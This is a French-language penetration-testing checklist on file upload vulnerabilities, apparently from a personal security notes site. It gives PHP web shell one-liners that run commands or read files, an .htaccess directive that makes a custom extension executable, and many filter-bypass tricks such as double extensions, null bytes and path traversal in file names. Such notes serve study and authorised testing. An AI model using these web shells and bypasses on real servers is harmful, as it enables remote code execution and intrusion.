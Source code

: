 ```yaml
---
title: "8.Vulnérabilités d'upload de fichier"
category : "Serveur"
tag: "Web"
---
```




## CheckList en pratique

Web shell classique pouvant servir :
- `<?php echo file_get_contents('/path/to/target/file'); ?>`
- `<?php echo system($_GET['command']); ?>` pour une requête 
```http
GET /example/exploit.php?command=id HTTP/1.1
```

- Validation défectueuse du type de fichier upload : Modifier le `Content-type` (contient le type `MIME` d'un fichier) d'une partie `Content-Disposition` d'un champ d'entrée pour voir si le serveur fait confiance à ce champ.
- Essayer de bypass les défenses de type **[sécurisation de répertoires accessible à l'utilisateur](https://mis0ko.github.io/serveur/FileUploadVulnerabilities/#emp%C3%AAcher-lex%C3%A9cution-de-fichiers-dans-des-r%C3%A9pertoires-accessibles-%C3%A0-lutilisateur)** : Faire un  ***path transversal*** dans le **filename** des requêtes `multipart/form-data` pour sortir du (avec [obfuscation](https://mis0ko.github.io/serveur/directoryTraversal/) si nécessaire).
- Bypass l'éventuelle [liste noire](https://mis0ko.github.io/serveur/FileUploadVulnerabilities/#remplacer-la-configuration-du-serveur) présente :
    - [Obfusquer](https://mis0ko.github.io/serveur/FileUploadVulnerabilities/#obfusquer-les-entensions-de-fichiers) l'extension du fichier upload pour qu'elle soit mal interprétée. À tester :
        - sensibilité à la casse (`exploit.pHp`)
        - caractère de fins (espace, points : `exploit.php.`) 
        - plusieurs extensions (`exploit.php.jpg`)
        - Url (double)encoding (`exploit%2Ephp` ou `exploit%252Ephp`)
        - Ajouter des `;` ou `%00` avant l'extension pour les traitements différents de langage haut/bas niveau  (`exploit.asp;.jpg` ou `exploit.asp%00.jpg`).
        - Utiliser des caractères unicode multioctets (peuvent se convertir en octets nuls/points après conversion/normalisation unicode) : `xC0 x2E`, `xC4 xAE` ou `xC0 xAE` peut devenir `x2E`.
        - Bypass les implémentation de défense qui supprime les extension de manière non récursive : `exploit.p.phphp`.
    - Changer la configuration du serveur web (par exemple sous apache, ajouter dans le fichier `.htaccess` la directive suivante permet de mapper l'extension `.l33t` au type MIME executable `application/x-httpd-php`)
    `AddType application/x-httpd-php .l33t`
    - Upload un payload avec une extension en `.l33t`, il bypassera la liste noire en place.

- Filename Injection : souvent réfléchis/manipulés (XSS, SQLi, LDAP/Command, SSRF).
    - XSS et CommandInjection dans le filename.
    - Paths : Absolute/relative/UNC
    - SSRF : payload de ssrf (https://...) + essayer de changer le type ="file" ou type="url" + burp collaborator payload